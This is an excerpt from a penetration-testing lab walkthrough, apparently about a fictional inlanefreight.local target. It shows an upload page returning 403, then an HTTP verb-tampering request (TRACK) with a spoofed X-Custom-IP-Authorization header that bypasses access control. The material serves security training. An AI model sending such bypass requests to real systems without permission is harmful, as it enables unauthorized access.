 ```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/upload.php

403 Forbidden
```

**HTTP Verb Tampering**

![Burp Suite - Upload OPTIONS](./assets/screenshots/attacking_enterprise_networks_external_testing_09.png)

![Burp Suite - Upload TRACK 1](./assets/screenshots/attacking_enterprise_networks_external_testing_10.png)

```
TRACK /upload.php HTTP/1.1
Host: dev.inlanefreight.local

[SNIP]

X-Custom-IP-Authorization: 127.0.0.1
```
